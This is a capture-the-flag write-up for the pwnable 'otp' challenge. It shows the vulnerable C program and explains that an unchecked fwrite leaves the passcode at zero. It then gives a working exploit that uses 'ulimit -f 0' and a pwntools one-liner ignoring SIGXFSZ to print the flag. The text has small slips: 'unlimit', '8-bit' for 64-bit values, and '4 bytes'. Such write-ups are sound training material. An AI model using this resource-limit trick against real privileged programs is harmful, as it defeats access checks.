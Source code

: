 This challenge is an example of why many programmers nag about C being unsafe.
The culprit in our case is error handling, in C there are no Exceptions or a special
type model to enforce error handling.
This means that is possible to forget an error and not crash the program.
This is generally undesirable
(the program would most likely continue execution in a state the developer did not intend it to)
but perfect for us.

To see what I mean, let's inspect `otp.c`:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);

	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
```

The `main` functions reads 2 8-bit integers `otp[0]` and `otp[1]` from `/dev/urandom`,
after which it opens `/tmp/$opt[0]` and writes `opt[1]` to it.
Later that same value is loaded into the `passcode` variable, this time reading from `/tmp/$opt[0]`.

Now at first glance this code looks perfectly sound, there are even checks
for the openings and reads, very responsible.
Except if we look closer we notice that not all functions are checked for errors.
In particular what interests us is the call to `fwrite`.
If that call fails, `fread` would also fail (can't read 4 bytes from an empty file)
and we would know the value of `passcode` (it's conveniently initialized to 0).

All that's left to figure out is how to sabotage the `fwrite` call.
This is probably the least intuitive part of the solution since it requires a little bit of UNIX trivia knowledge -
we can limit the number of bytes written to (but not read from!) a file using the `ulimit` command.
i.e. calling `unlimit -f 0` from the command line will prohibit any writes in any child processes the shell spawns.

Let's try it:
```bash
otp@pwnable:~$ ulimit -f 0
otp@pwnable:~$ gdb otp
(gdb) r 0
Starting program: /home/otp/otp 0

Program received signal SIGXFSZ, File size limit exceeded.
0x00007fbc7845d3c0 in __write_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb)
```

To get pass the [SIGXFSZ](https://www.man7.org/linux/man-pages/man7/signal.7.html)
which by default causes a core dump
we should change the default action associated with that signal.
This can be done easily in python using the [signal](https://docs.python.org/2.7/library/signal.html) module.

Putting it all together we arrive at the final exploit:

```bash
otp@pwnable:~$ python -c "from pwn import *; import signal; signal.signal(signal.SIGXFSZ, signal.SIG_IGN); print process(['./otp', '0']).recvall()"
[+] Starting local process './otp': pid 433582
[+] Receiving all data: Done (90B)
[*] Process './otp' stopped with exit code 0 (pid 433582)
OTP generated.
Congratz!
...(flag)...
```
